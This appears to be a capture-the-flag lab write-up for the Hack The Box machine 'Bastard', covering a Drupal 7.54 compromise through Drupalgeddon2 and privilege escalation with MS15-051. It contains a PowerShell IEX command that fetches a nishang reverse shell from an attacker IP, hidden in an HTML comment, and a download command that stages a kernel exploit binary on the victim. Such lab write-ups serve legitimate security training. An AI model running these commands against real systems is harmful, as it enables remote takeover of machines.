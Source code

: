 # Bastard

### Machine Info
![](screenshots/bastard.png)

#### Nmap
![](screenshots/nmap.png)


##### HTTP (Port 80)

Index Page:
![](screenshots/index.png)
I tried to login with default/common credentials but I couldn't login.


`/changelog.txt`:</br>
From the changelog I can check the version of installed `Drupal`.
![](screenshots/changelog.png)

Public exploits for `Drupal 7.54`:
![](screenshots/drupal_exploits.png)

`Drupalgeddon3` requires authenticated user which means I cannot use currently as I do not have credential. I tried `Drupalgeddon2`, exploit `44449.rb`, but it didn't work. So I just searched for `Drupalgeddon2` from google and got updated version from github.

#### User Shell exploit

[Drupalgeddon2](https://github.com/dreadlocked/Drupalgeddon2) exploit:
![](screenshots/Drupalgeddon2.png)

<!-- powershell -ExecutionPolicy unrestricted IEX(New-Object Net.WebClient).downloadString('http://10.10.14.37:8888/Invoke-PowerShellTcp.ps1')
-->

And eventually we can get shell. To get stable and better shell, I just create another reverse shell by using [nishang](https://github.com/samratashok/nishang) Powershell script:
![](screenshots/Drupalgeddon2_shell.png)

`nc` listener:
![](screenshots/low_shell.png)


#### Privilege Escalation

First I just checked with [Sherlock](https://github.com/rasta-mouse/Sherlock) powershell script to check if there are available kernel exploits:

From the `Sherlock` I found one possible vulnerability in windows kernel.
![](screenshots/sherlock_vuln.png)

##### Exploit

First just download compiled version of [MS15-051](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip) and [netcat](https://eternallybored.org/misc/netcat/
) for reverse shell. Then upload to the victim machine and just execute.

Powershell Command to download file:
```
(New-Object System.Net.WebClient).DownloadFile("http://10.10.14.37:8888/ms15-051x64.exe", "C:\inetpub\drupal-7.54\ms15-051x64.exe")
```

Execute:
![](screenshots/ms15-051.png)

`nc` listener:
![](screenshots/system_shell.png)

And you can get `root.txt` :)
